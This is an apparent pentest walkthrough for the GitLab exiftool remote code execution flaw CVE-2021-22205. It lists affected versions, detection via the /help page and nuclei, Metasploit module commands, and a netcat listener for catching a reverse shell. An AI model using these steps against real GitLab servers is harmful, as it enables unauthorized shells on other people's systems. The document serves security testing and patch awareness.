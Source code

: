 # Gitlab - CVE-2021-22205 Unauthenticated RCE with exiftool

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

## Requirements

This vulnerability affect the below **Gitlab CE/EE** versions:

- `>=11.9`, `<13.8.8`
- `>=13.9`, `<13.9.6`
- `>=13.10`, `<13.10.3`

## Exploitation

### Step 1: Detection

**Try to find the version of Gitlab**  
First of all, before trying to exploit the RCE, we need to try to find the version of Gitlab. 

- **Authenticated**: The version can often be found on `/help` endpoint when authenticated with a user account.
    
    ![](imgs/gitlab_version.png)


- **Unauthenticated**: On recent versions the `What’s new` feature on `/help` endpoint show an approximative version without authentication. Found this menu clinking on `?` button on top right.
    
    ![](imgs/gitlab_approximative_version.png)
    
**Nuclei detection**  
Some nuclei templates are available for detection with id `CVE-2021-22205`, `gitlab-rce` or tag `gitlab`:
- [gitlab-rce template](https://github.com/projectdiscovery/nuclei-templates/blob/d6636f9169920d3ccefc692bc1a6136e2deb9205/vulnerabilities/gitlab/gitlab-rce.yaml)
- [CVE-2021-22205 template](https://github.com/projectdiscovery/nuclei-templates/blob/637eec3efac6eb384742c7aaa4e7d14f3392ede9/cves/2021/CVE-2021-22205.yaml)

`nuclei -u http://192.168.1.10 -id CVE-2021-22205,gitlab-rce`  

![](imgs/nuclei_id.png)

`nuclei -u http://192.168.1.10 -tags gitlab -silent`

![](imgs/nuclei_tags.png)

### Step 2.1: Exploit using metasploit
    
This RCE technique is available in the `multi/http/gitlab_exif_rce` module in metasploit.
    
```bash
use multi/http/gitlab_exif_rce
set RHOSTS 192.168.1.10
set LHOST wlan0
run
```
**Enjoy your shell**
  
After running the metasploit module, if the remote gitlab is vulnerable you will have an meterpreter session.
  
![](imgs/metasploit_gitlab_rce.png)

### Step 2.2: Exploit without Metasploit

Inspiringz made an [python exploit](https://github.com/inspiringz/CVE-2021-22205).

**Start your listener**  

`nc -lvnp 1337`

**Enjoy your shell**

![](imgs/rev_shell_python.png)


## References

 - [Action needed by self-managed customers in response to CVE-2021-22205](https://about.gitlab.com/blog/2021/11/04/action-needed-in-response-to-cve2021-22205/)  
 - [Hackerone report #1154542](https://hackerone.com/reports/1154542)  
 - [Gitlab issue #327121](https://gitlab.com/gitlab-org/gitlab/-/issues/327121)  
